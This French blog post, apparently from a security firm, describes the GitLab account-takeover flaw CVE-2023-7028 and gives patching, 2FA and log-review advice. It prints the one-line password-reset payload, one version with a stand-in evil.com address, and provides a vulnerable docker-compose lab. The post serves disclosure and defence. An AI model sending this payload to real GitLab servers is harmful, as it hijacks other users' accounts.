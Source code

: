```yaml
---
title: "Compromettre des comptes Gitlab avec la vulnérabilité CVE-2023-7028"
description: "FIXME description à remplir"
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Test d'intrusion", "Pentest", "Audit"]
---
```


# 😮 Exposer GitLab publiquement en 2024 : trop dangereux ?

<br>
<br>

Est ce que exposer son propre Gitlab est une bonne pratique de sécurité ? Et bien vous allez voir que **non**.

2024 commence fort et donne encore de bonnes raisons de **ne pas exposer ce service sur Internet** (mais plutôt de l'héberger derrière un VPN).

## Un début d'année sous haute tension

Le 11 janvier 2024, GitLab, la célèbre plateforme communautaire, a publié une annonce importante concernant les nouvelles versions `16.7.2, 16.6.4 et 16.5.6` pour GitLab Community Edition (CE) et Enterprise Edition (EE).

Deux vulnérabilités sont expliquées :

1. La vulnérabilité **CVE-2023-7028** 
    - CVSS de 10/10 😮
    - Elle permet la prise de contrôle d'un compte via la réinitialisation du mot de passe sans interaction de l'utilisateur.

2. La vulnérabilité **CVE-2023-5356** 
    - CVSS de 9.6/10 😟
    - Elle permet à un utilisateur d'abuser des intégrations Slack/Mattermost pour exécuter des commandes slash en tant qu'autre utilisateur.

## En bref

La vulnérabilité la plus problématique est la première : la **CVE-2023-7028**.

Loin d'être inoffensive, elle est très problématique :

- Elle permet de réinitialiser le mot de passe de n'importe quel utilisateur.
- La vulnérabilité est exploitable sans compte.
- Il est nécessaire de connaitre le mail de la victime.
- La charge tient en une ligne : `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

La deuxième vulnérabilité est tout aussi grave mais moins facilement exploitable.

## Exploitation

Pour exploiter cette vulnérabilité, le PoC est vraiment très simple :

```
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` est l'adresse de la victime
- `attacker@email.com` est l'adresse de l'attaquant

Une confusion est effectuée par GitLab rendant la possibilité à un attaquant d'écraser le mail de la victime par le sien 😮 !

Plus précisément, une modification a été apportée à la version `16.1.0` afin de permettre aux utilisateurs de réinitialiser leur mot de passe à l'aide d'une adresse électronique secondaire. La vulnérabilité résulte d'un bug dans le processus de vérification des email.

👉 Plus de détails sur le blog de GitLab : https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions


## Actions recommandées

Gitlab recommande les actions suivantes : 

1️⃣  **Mise à jour immédiate** : il est fortement conseillé de mettre à jour Gitlab vers la dernière version corrigée. Pour les utilisateurs n'ayant pas encore effectué de mise à jour, GitLab recommande de passer directement aux versions `16.7.3, 16.6.5, 16.5.7` ou ultérieures.

2️⃣ **Activer l'authentification à deux facteurs (2FA)**: GitLab conseille d'activer le 2FA pour tous les comptes. Cette sécurité empêche l'utilisation de cette vulnérabilité.

3️⃣ **Vérification de l'intégrité** : il est conseillé aux clients auto-gérés d'examiner leurs logs afin détecter toute tentative d'exploitation de ces vulnérabilités.

Exemple :

- Consulter le fichier `gitlab-rails/production_json.log` afin de vérifier qu'aucune requête pointant vers la route `/users/password` ne contienne **plusieurs adresses emails**.
- Consulter le fichier `gitlab-rails/audit_json.log` afin de vérifier que le champ `meta.caller_id` de `PasswordsController#create` et `target_details` ne contiennent pas **plusieurs adresses emails**.

## Automatisation

De nombreux PoC sont disponibles sur Internet permettant d'automatiser la vulnérabilité :

- Fait par un français talentueux : https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028

## Docker vulnérable

Pour les plus curieux, vous trouverez ci-dessous un docker compose vulnérable pour pratiquer cette vulnérabilité

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

## Démonstration

Petite démonstration ci-dessous pour présenter l'exploitation de la vulnérabilité :

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

🙏 Patchez rapidement. Trackflaw est la pour vous aider dans cette tâche. Prenez contact avec nous sur https://trackflaw.com ou par email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions
